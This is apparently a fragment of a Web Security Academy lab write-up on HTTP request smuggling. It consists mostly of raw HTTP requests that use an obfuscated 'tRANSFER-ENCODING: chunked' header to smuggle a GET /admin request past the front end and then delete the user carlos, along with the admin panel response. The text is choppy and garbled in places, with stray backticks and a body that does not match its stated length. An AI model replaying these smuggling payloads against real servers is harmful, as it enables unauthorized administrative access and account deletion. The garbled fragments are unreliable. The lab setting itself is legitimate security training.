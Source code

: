 3
x=y
0

`GET /admin HTTP/1.1
Host: localhost

x=x

---

3.

---

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0
```

---

Response:
```
                       <div>
                           <span>carlos - </span>
                           <a href="/admin/delete?`username=carlos">Delete</a>
                        </div>
                       <div>
```

 `                       

- Then, make this request twice,  and carlos was deleted:


```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```
